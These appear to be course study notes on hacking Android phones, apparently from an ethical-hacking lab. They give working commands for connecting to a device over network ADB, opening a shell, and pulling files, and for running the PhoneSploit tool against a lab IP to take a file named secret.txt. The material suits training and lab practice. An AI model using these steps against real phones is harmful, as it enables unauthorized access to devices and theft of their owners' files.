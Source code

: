 # 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

###

###

### Download a file from Android using ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### Download a file from Android using PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```









### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download

